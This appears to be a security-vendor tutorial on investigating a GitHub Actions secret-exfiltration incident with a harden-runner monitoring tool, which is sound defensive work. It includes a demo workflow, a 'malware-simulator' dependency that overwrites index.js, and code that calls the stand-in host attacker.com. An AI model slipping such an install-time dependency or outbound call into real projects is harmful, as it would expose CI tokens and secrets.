 # Forensically Reconstruct An Incident Post-Compromise

## Introduction
In this section, we will find out how an actor with `write` permission can exfiltration of sensitive information and deletes the run later to remove the evidance.

## Example Action:
Description: An example GitHub Actions workflow that does upload sensitive information like GITHUB_TOKEN to attacker.com.

```
name: "Hosted: Network Monitoring with Harden-Runner"
on:
  workflow_dispatch:

jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      - uses: step-security/harden-runner@v2
        with:
          egress-policy: audit
      - uses: actions/checkout@v3
      - name: npm install
        run: |
          cd ./src/exfiltration-demo
          npm install
      - name: Publish to Registry
        uses: elgohr/Publish-Docker-Github-Action@v5
        with:
          name: ${{ github.repository }}/prod:latest
          username: ${{ github.actor }}
          password: ${{ secrets.GITHUB_TOKEN }}
          registry: ghcr.io
          workdir: ./src/exfiltration-demo
```

Here src/package.json has following dependencies
```
  "dependencies": {
    "@step-security/malware-simulator": "file:../malware-simulators/exfiltration-simulator"
  },
```

And the malware-simulator is overwriting the `index.js` file.
```
https
  .get("https://attacker.com/", (res) => {
    if (res.statusCode < 200 || res.statusCode >= 300) {
      console.error("HTTP Error: " + res.statusCode);
      process.exit(1); // Exit with a failure code on HTTP error status
    }

    let data = "";

    res.on("data", (chunk) => {
      data += chunk;
    });

    res.on("end", () => {
      console.log(data);
    });
  })
  .on("error", (err) => {
    console.error("Error: " + err.message);
    process.exit(1); // Exit with a failure code
  });
```

## Steps to Identify the Vulnerability:

### Review exfiltrated secrets:
When `step-security/harden-runner@v2` is added in the workflow you can open the `StepSecurity Dashboard` and click on the `Runtime Security` tab. You should see a record for the workflow run and can click on it to view the outbound calls made during the run, and what process made the call. This is important forensic information that can help confirm the incident, and identify the step and the process that exfiltrated secrets. It can also be used to understand who ran the workflow to identify whose credentials have been compromised.


## Steps to Mitigate the Vulnerability:

### Remove permissions from user and rotate the leaked secrets
Once you have identified the actor who had done exfiltration of sensitive information you can remove their `write` permission and rotate all the secrets which were leaked.




